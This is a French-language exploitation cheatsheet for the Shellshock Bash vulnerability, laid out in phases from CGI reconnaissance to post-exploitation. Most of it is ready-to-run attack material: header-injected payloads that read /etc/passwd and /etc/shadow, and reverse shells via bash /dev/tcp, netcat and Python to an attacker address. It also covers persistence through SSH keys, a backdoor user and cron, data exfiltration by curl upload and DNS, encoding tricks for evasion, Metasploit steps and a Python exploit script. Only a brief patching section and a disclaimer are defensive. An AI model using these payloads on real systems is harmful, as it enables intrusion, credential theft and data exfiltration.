

# Shellshock (CVE-2014-6271) - Cheatsheet d'Exploitation

## Vue d'ensemble
Shellshock est une vulnérabilité critique dans Bash qui permet l'exécution de code arbitraire via des variables d'environnement malicieuses. Elle affecte principalement les serveurs web utilisant des scripts CGI.

---

## Phase 1: Reconnaissance

### Scan initial des ports
```bash
nmap -sV -sC <target>
nmap -p- <target>  # Scan complet des ports
```

### Identification des services web
```bash
nmap -p 80,443,8080 --script http-enum <target>
```

### Recherche de scripts CGI
```bash
dirb http://<target> /usr/share/dirb/wordlists/common.txt
gobuster dir -u http://<target> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x cgi,sh,pl,py
```

**Scripts CGI communs à tester:**
- `/cgi-bin/test.cgi`
- `/cgi-bin/admin.cgi`
- `/gettime.cgi`
- `/status.cgi`
- `/info.cgi`

---

## Phase 2: Détection de la vulnérabilité

### Test avec Nmap NSE
```bash
# Test basique
nmap --script http-shellshock --script-args "http-shellshock.uri=/cgi-bin/test.cgi" <target>

# Test avec URI personnalisée
nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <target>

# Test multiple URIs
nmap --script http-shellshock --script-args "http-shellshock.uri=/cgi-bin/vulnerable.cgi,/cgi-bin/test.cgi" <target>
```

### Test manuel avec curl
```bash
# Test de base
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'echo VULNERABLE'" http://<target>/cgi-bin/test.cgi

# Test avec différents headers
curl -H "Referer: () { :; }; echo; echo; /bin/bash -c 'echo SHELLSHOCK'" http://<target>/gettime.cgi
curl -H "Cookie: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://<target>/cgi-bin/admin.cgi
```


---

## Phase 3: Exploitation

### Payloads de base

#### Vérification d'exécution
```bash
() { :; }; echo; echo; /bin/bash -c 'echo "SHELLSHOCK_TEST"'
```

#### Collecte d'informations système
```bash
# Utilisateur actuel
() { :; }; echo; echo; /bin/bash -c 'whoami'

# ID utilisateur et groupes
() { :; }; echo; echo; /bin/bash -c 'id'

# Informations système
() { :; }; echo; echo; /bin/bash -c 'uname -a'

# Liste des processus
() { :; }; echo; echo; /bin/bash -c 'ps -ef'

# Fichiers système sensibles
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
() { :; }; echo; echo; /bin/bash -c 'cat /etc/shadow'
```

#### Navigation dans le système de fichiers
```bash
# Répertoire courant
() { :; }; echo; echo; /bin/bash -c 'pwd'

# Contenu du répertoire
() { :; }; echo; echo; /bin/bash -c 'ls -la'

# Recherche de fichiers intéressants
() { :; }; echo; echo; /bin/bash -c 'find /var/www -name "*.php" | head -10'
() { :; }; echo; echo; /bin/bash -c 'find / -name "*config*" 2>/dev/null | head -10'
```

### Reverse Shell

#### Bash reverse shell
```bash
() { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/<your_ip>/<port> 0>&1'
```

#### Netcat reverse shell
```bash
() { :; }; echo; echo; /bin/bash -c 'nc -e /bin/bash <your_ip> <port>'
# Alternative si -e n'est pas supporté
() { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> <port> >/tmp/f'
```

#### Python reverse shell
```bash
() { :; }; echo; echo; /bin/bash -c 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<your_ip>\",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);"'
```

---

## Phase 4: Techniques d'exploitation avancées

### Avec Burp Suite

**Configuration:**
1. Configurer FoxyProxy pour rediriger vers Burp (127.0.0.1:8080)
2. Activer l'interception dans Burp Suite
3. Naviguer vers le script CGI cible
4. Intercepter la requête

**Modification du User-Agent dans Burp:**
```
User-Agent: () { :; }; echo; echo; /bin/bash -c 'YOUR_COMMAND_HERE'
```

### Headers alternatifs à tester
```bash
# Via Referer
Referer: () { :; }; echo; echo; /bin/bash -c 'whoami'

# Via Cookie
Cookie: () { :; }; echo; echo; /bin/bash -c 'id'

# Via Accept
Accept: () { :; }; echo; echo; /bin/bash -c 'uname -a'

# Via X-Forwarded-For
X-Forwarded-For: () { :; }; echo; echo; /bin/bash -c 'ps aux'
```

### Bypass et évasion

#### Encodage des commandes
```bash
# Base64
() { :; }; echo; echo; /bin/bash -c 'echo "d2hvYW1p" | base64 -d | bash'

# Hex encoding
() { :; }; echo; echo; /bin/bash -c 'echo -e "\x77\x68\x6f\x61\x6d\x69" | bash'
```

#### Utilisation de variables
```bash
() { :; }; echo; echo; /bin/bash -c 'cmd="whoami"; $cmd'
```

---

## Phase 5: Post-exploitation

### Persistence
```bash
# Ajouter une clé SSH
() { :; }; echo; echo; /bin/bash -c 'echo "ssh-rsa YOUR_PUBLIC_KEY" >> ~/.ssh/authorized_keys'

# Créer un utilisateur backdoor
() { :; }; echo; echo; /bin/bash -c 'useradd -m -s /bin/bash backdoor'

# Crontab pour persistence
() { :; }; echo; echo; /bin/bash -c 'echo "* * * * * /bin/bash -c \"bash -i >& /dev/tcp/<your_ip>/<port> 0>&1\"" | crontab -'
```

### Exfiltration de données
```bash
# Compresser et exfiltrer
() { :; }; echo; echo; /bin/bash -c 'tar -czf /tmp/data.tar.gz /var/www/html && curl -X POST -F "file=@/tmp/data.tar.gz" http://<your_server>/upload'

# Exfiltration via DNS
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd | xxd -p | tr -d "\n" | sed "s/.\{60\}/&./g" | while read line; do nslookup $line.<your_domain>; done'
```

---

## Outils automatisés

### Exploitation avec Metasploit
```bash
msfconsole
use auxiliary/scanner/http/apache_mod_cgi_bash_env
set RHOSTS <target>
set TARGETURI /cgi-bin/test.cgi
run

# Pour un shell
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <target>
set TARGETURI /cgi-bin/vulnerable.cgi
set payload linux/x86/shell/reverse_tcp
set LHOST <your_ip>
set LPORT 4444
exploit
```

### Scripts personnalisés

#### Script Python basique
```python
#!/usr/bin/env python3
import requests
import sys

def exploit_shellshock(target, cgi_path, command):
    url = f"http://{target}{cgi_path}"
    payload = f"() {{ :; }}; echo; echo; /bin/bash -c '{command}'"
    headers = {'User-Agent': payload}
    
    try:
        response = requests.get(url, headers=headers, timeout=10)
        return response.text
    except:
        return "Erreur de connexion"

# Utilisation
if len(sys.argv) != 4:
    print("Usage: python3 shellshock.py <target> <cgi_path> <command>")
    sys.exit(1)

result = exploit_shellshock(sys.argv[1], sys.argv[2], sys.argv[3])
print(result)
```

---

## Contre-mesures et détection

### Vérification de votre système
```bash
# Test local
env x='() { :;}; echo vulnerable' bash -c "echo test"

# Version de Bash
bash --version
```

### Mise à jour et patch
```bash
# Ubuntu/Debian
sudo apt-get update && sudo apt-get install --only-upgrade bash

# CentOS/RHEL
sudo yum update bash

# Vérification après patch
env x='() { :;}; echo vulnerable' bash -c "echo test"  # Ne devrait plus afficher "vulnerable"
```

---

## Checklist de test

- [ ] Scan des ports et identification des services web
- [ ] Énumération des scripts CGI
- [ ] Test avec Nmap NSE script
- [ ] Test manuel avec curl
- [ ] Exploitation via différents headers (User-Agent, Referer, Cookie)
- [ ] Test de reverse shell
- [ ] Vérification des privilèges obtenus
- [ ] Documentation des preuves d'exploitation

---

## Ressources utiles

**Scripts Nmap:**
- `/usr/share/nmap/scripts/http-shellshock.nse`

**Wordlists CGI:**
- `/usr/share/dirb/wordlists/vulns/cgis.txt`
- `/usr/share/seclists/Discovery/Web-Content/CGIs.txt`

**Références:**
- CVE-2014-6271
- https://github.com/opsxcq/exploit-CVE-2014-6271
- OWASP Testing Guide

---

## Notes importantes

⚠️ **Avertissement:** Cette cheatsheet est destinée uniquement aux tests de pénétration autorisés et à l'éducation en cybersécurité.

🔍 **Tip:** Toujours tester plusieurs headers et URIs CGI pour maximiser les chances de succès.

🛡️ **Défense:** Mettre à jour Bash régulièrement et désactiver les scripts CGI non nécessaires.